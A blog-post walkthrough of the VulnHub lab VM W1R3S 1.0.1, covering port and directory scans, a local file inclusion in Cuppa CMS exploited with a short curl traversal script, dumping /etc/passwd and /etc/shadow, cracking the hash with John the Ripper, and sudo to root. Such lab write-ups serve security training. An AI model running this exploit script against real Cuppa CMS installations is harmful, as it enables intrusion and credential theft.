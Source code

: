 ```yaml
---
layout: post
title: "Ghost in the Wires"
category: Walkthrough
tags: [VulnHub, W1R3S]
comments: true
---
```


This post documents the complete walkthrough of W1R3S: 1.0.1, a boot2root [VM][1] created by SpecterWires and hosted at [VulnHub][2]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

You have been hired to do a penetration test on the W1R3S.inc individual server and report all findings. They have asked you to gain `root` access and find the flag (located in `/root` directory).

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host:

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.100.130
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:21 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:25 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28 16:53 new-employees
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|_  256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
```

As usual, let's go with directory/file enumeration on the web service and see what we get.

### Directory/File Enumeration

I've always like to use `gobuster` with one of the big directory wordlists.

```
Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.100.130/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://192.168.100.130/administrator (Status: 301)
http://192.168.100.130/javascript (Status: 301)
http://192.168.100.130/wordpress (Status: 301)
=====================================================
```

OK. We have two interesting directories: `administrator` and `wordpress`.

### Cuppa CMS

The `administrator` directory turned out to be the installation setup for Cuppa CMS. This is how it looked like when you point the browser to `/administrator`.

![screenshot-1](/assets/images/posts/w1r3s-walkthrough/screenshot-1.png)

According to the official [documentation](https://www.cuppacms.com/en/docs/installation){:target="_blank"}, in order for the installation to be completed, the database have to be created first.

>On step 2, configure the database and user administrator setting and click in next. Remember, the database should be created before to install Cuppa CMS.

The Cuppa CMS installation was never completed in the first place or I'll not be seeing the setup page. Suffice to say, I downloaded a [copy](http://cuppacms.com/files/cuppa_cms.zip){:target="_blank"} of the Cuppa CMS code to see if I can discover any vulnerabilities.

It was certainly a pleasant surprise when I found one. I'm not sure if this is a new vulnerability but there is a LFI vulnerability with `alertConfigField.php` at line 77.

![screenshot-2](/assets/images/posts/w1r3s-walkthrough/screenshot-2.png)

To test it, I wrote `cat.sh`, an extremely simple script that will display any file as long as there is permission to do so.

{% highlight bash linenos %}
#!/bin/bash

_HOST=192.168.100.130
_PATH=administrator/alerts/alertConfigField.php
_PARM=urlConfig
_TRAV=../../../../../../../..

curl -s --data-urlencode "${_PARM}=${_TRAV}$1" $_HOST/$_PATH \
| sed -r 's/^ {8}//' \
| sed '71,$!d' \
| sed '$d' \
| sed '$d'
{% endhighlight %}

Let's give it a shot and see what we get.

```
# ./cat.sh /etc/passwd
...
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```
Imagine my surprise when I requested for `/etc/shadow` and it showed up in the output.

```
# ./cat.sh /etc/shadow
...
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

I'm not quite sure if `/etc/shadow` was intentionally made world-readable which should not be the case.

### John the Ripper

Well, what's done is done. With both `passwd` and `shadow` made available, I can `unshadow` them and send them to JtR for offline cracking with a password list like "rockyou".

The cracking was completed in seconds.

```
# john --format=crypt --show hashes.txt 
w1r3s:computer:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

With the password of `w1r3s` made available, I can simply login to the box via SSH.

![screenshot-3](/assets/images/posts/w1r3s-walkthrough/screenshot-3.png)

### Privilege Escalation

It wasn't long before I saw that `w1r3s` is on the `sudoers` list.

![screenshot-4](/assets/images/posts/w1r3s-walkthrough/screenshot-4.png)

Becoming `root` is just one command away.

![screenshot-5](/assets/images/posts/w1r3s-walkthrough/screenshot-5.png)

:dancer:

### Afterthought

Frankly, I didn't even bother with WordPress. :stuck_out_tongue_winking_eye:

[1]: https://www.vulnhub.com/entry/w1r3s-101,220/
[2]: https://www.vulnhub.com

*[LFI]: Local File Inclusion

